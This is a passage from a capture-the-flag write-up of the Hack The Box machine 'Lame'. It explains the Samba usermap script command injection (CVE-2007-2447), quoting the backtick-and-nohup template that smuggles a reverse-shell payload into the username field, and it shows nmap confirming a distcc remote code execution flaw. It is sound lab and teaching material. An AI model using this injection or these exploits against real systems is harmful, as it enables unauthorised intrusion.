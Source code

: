 On checking searchsplpoit, we got some exploits for  samba 3.0.
![](/assets/Hackthebox/Lame/1.png)

However,
```bash
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) 
```
seems interesting. This is `CVE-2007-2447`, often referred to as `Samba usermap script`.On checking the script, there seems to be an issue with the `username` field. If we send shell metacharacters into the username we exploit a vulnerability which allows us to execute arbitrary commands.

Going through the code tells us that the script is running the following command, where payload.encoded would be a reverse shell sent back to our attack machine.
```bash
"/=`nohup " + payload.encoded + "`"
```

### Port 3632 distcc v1
Googling `“distcc v1”` reveals that this service is vulnerable to a `remote code execution` and there’s an `nmap script` that can verify that. On executing nmap script, it states that this machine is `vulnerable`.
```bash
┌─[root@linux]─[/usr/share/nmap/scripts] 
└──╼ #nmap --script distcc-cve2004-2687.nse -p 3632 10.10.10.3 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-11 20:11 +0545 
Nmap scan report for 10.10.10.3 
Host is up (0.31s latency). 
PORT     STATE SERVICE 
3632/tcp open  distccd 
| distcc-cve2004-2687:  
|   VULNERABLE: 
|   distcc Daemon Command Execution 
|     State: VULNERABLE (Exploitable) 
|     IDs:  CVE:CVE-2004-2687 
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C) 
|       Allows executing of arbitrary commands on systems running distccd 3.1 and 
|       earlier. The vulnerability is the consequence of weak service configuration. 
|        
|     Disclosure date: 2002-02-01 
|     Extra information: 
|        
|     uid=1(daemon) gid=1(daemon) groups=1(daemon) 
|    
|     References: 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687 
|       https://distcc.github.io/security.html 
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687 
Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```
